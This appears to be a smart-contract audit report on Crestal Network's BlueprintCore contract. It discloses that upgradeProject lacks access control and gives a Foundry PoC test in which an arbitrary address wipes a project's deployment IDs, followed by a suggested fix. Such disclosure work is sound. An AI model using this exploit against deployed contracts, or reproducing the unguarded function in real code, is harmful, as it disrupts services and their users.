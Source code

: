 Fierce Mint Meerkat

High

# Unrestricted blueprintCore::upgradeProject Function Leads To Service Interruption

### Summary

The upgradeProject function in blueprintCore.sol lacks access control, allowing anyone to reset critical project data. This results in the loss of requestProposalID, requestDeploymentID, and proposedSolverAddr, leading to service interruptions.

### Root Cause

The function does not implement proper access restrictions, enabling arbitrary users to reset project-related information.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198-L203



### Internal Pre-conditions

a project have been created by builder

### External Pre-conditions

N/A

### Attack Path

After a project is created, an attacker can reset its data at any time.

### Impact

Workers and the Crestal backend rely on the project state to confirm which deployment request is active. Resetting a project could remove critical identifiers (like the proposal and deployment request IDs), leading to mismatches between on‑chain events and off‑chain records. This can result in the loss of vital deployment data, undermining data availability for integrations.

ref: https://docs.crestal.network/solvers/worker

### PoC

Around line 72-84. it shows any account call the upgradeProject function. And the requestDeploymentIDs have been reset

```solidity
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {MockERC20} from "./MockERC20.sol";

contract BlueprintTest2 is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }

    function test_anyoneCanUpgradeProject() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Generate the signature
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);

        // Expect the createAgent event
        vm.expectEmit(true, false, true, true);
        emit BlueprintCore.CreateAgent(projectId, "fake", signerAddress, 0, 0);

        // Create agent with token
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // check LogApproveEvent
        // vm.expectEmit(true, true, false, true);
        // emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // try with different project id
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);
        // create agent with token and non zero cost
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));

        address proposedSolverAddr;
        bytes32 requestProposalID;
        bytes32[] memory requestDeploymentIDs;
        (proposedSolverAddr, requestProposalID, requestDeploymentIDs) = blueprint.getProjectInfo(projectId);
        assertEq(requestDeploymentIDs.length, 1);
        console.logBytes32(requestDeploymentIDs[0]);

        address attacker = makeAddr("attack");
        vm.prank(attacker);
        blueprint.upgradeProject(projectId);
        (proposedSolverAddr, requestProposalID, requestDeploymentIDs) = blueprint.getProjectInfo(projectId);
        // requestDeploymentID is gone
        assertEq(requestDeploymentIDs.length, 0);
    }

    function generateSignature(bytes32 _projectId, string memory _base64Proposal, string memory _serverURL)
        internal
        view
        returns (bytes memory, address)
    {
        bytes32 digest = blueprint.getRequestDeploymentDigest(_projectId, _base64Proposal, _serverURL);
        uint256 signerPrivateKey = 0xA11CE;
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, digest);
        return (abi.encodePacked(r, s, v), vm.addr(0xA11CE));
    }
}

```

### Mitigation

Implement proper authentication and authorization, ensuring that only privileged roles (e.g., project owners or admin) can call upgradeProject.

If the function is unnecessary, consider removing it to prevent potential misuse.